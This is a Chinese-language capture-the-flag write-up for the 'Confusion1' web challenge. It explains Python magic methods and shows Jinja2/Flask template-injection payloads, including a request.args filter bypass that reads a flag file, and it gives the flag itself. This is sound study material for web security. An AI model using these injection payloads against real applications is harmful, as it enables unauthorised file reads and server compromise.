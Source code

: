 # Confusion1

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=7100b512-f0d1-4b55-a39f-ba9c0c800b57_2)

这题又是模版注入，就是不太明显，我想不到，还是做的题太少了。

![Confusion1](../../images/Confusion1.png)

网站还是很简陋，简陋到点Login和Register都会报错的程度。最奇怪的的是最左边那个灰色的链接可以点，然后会把你带到一个和题目完全无关的网站去。检查当前网页的元素会发现首页图片的名字“PythonVsPhp”。

没啥思路，随便点点，发现报错页面的源代码中有注释。

- <\!--Flag @ /opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt--><br><\!--Salt @ /opt/salt_b420e8cfb8862548e68459ae1d37a1d5.txt-->

莫名其妙告诉了我们flag的路径，难不成又是任意文件读取这类的东西？robots.txt没有发现，phps也没法看。这时想到python，你说python在ctf里比较常见的考点是啥呢？Flask模版注入？

- http://61.147.171.105:51070/{{2*2}}

> The requested URL /4 was not found on this server.

文件名是个注入点。我不太懂模版注入，所以去网上找了经典的flask注入payload。

- {{''.\__class__.\__mro__\[2].\__subclasses__()}}

然后被过滤了。上次在shrine里用的{{url_for.\__globals__}}也不能用，看来要想办法绕掉常用的__class__等内容。想绕过就要先理解上面那个payload的原理。

- ### Python魔术方法
- > \__class__  返回类型所属的对象<br>\__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。<br>\__base__   返回该对象所继承的基<br>__base__和__mro__都是用来寻找基类的<br>\__subclasses__   每个类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表<br>\__init__  类的初始化方法<br>\__globals__  对包含函数全局变量的字典的引用<br>\__builtins__ builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以可以直接调用引用的模块

- ### 获取基类
- > \[].\__class__.\__base__<br>''.\__class__.\__mro__\[2]<br>().\__class__.\__base__<br>{}.\__class__.\__base__<br>request.\__class__.\__mro__\[8] 　　//针对jinjia2/flask为\[9]<br>\[].\__class__.\__bases__\[0]

- ### 获取基类的子类
- > [].\__class__.\__base__.\__subclasses__()

由上可得 {{''.\__class__.\__mro__\[2].\__subclasses__()}} 的作用是寻找字符串''的所属对象的位于第二个索引的基类的子类列表。在python中，所有数据类型的父类都是object，所以__mro__\[2]获取的就是object（python支持多继承所以一个类型可能会有很多父类，这里正好索引2是object）。最后__subclasses__()找子类，注意__subclasses__()是个方法。详情请见[这里](https://blog.csdn.net/xiao__1bai/article/details/115672392)。

了解了基本的魔术方法后就能正式想想怎么绕过了，这里可以利用flask的全局对象request来实现。（全局对我们来说就是方便调用）

- {{''\[request.args.a][request.args.b][2]\[request.args.c]()\[40]\('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')\[request.args.d]()}}?a=\__class__&b=\__mro__&c=\__subclasses__&d=read

request顾名思义，就是flask内部用于处理请求的对象。request.args用于获取get方法的参数，用法就是request.args.参数名。注意服务器收到的url内容只有 {{''\[request.args.a][request.args.b][2]\[request.args.c]()\[40]\('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')\[request.args.d]()}} 这部分，后面get传参的内容是不会被送到url中的，也就不会被过滤。如果把request去掉那这个payload就很清楚了。

- {{''.\__class__.\__mro__\[2]\__subclasses__()\[40]\('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt','read')\()}}

其实就是找到文件并读取（可能不准确但是原理差不多了）。''.\__class__.\__mro__\[2]\__subclasses__()\[40]为<type 'file'>。

- ### Flag
- > cyberpeace{9d6a2aa7526b1f51bdbeed194730c73c}




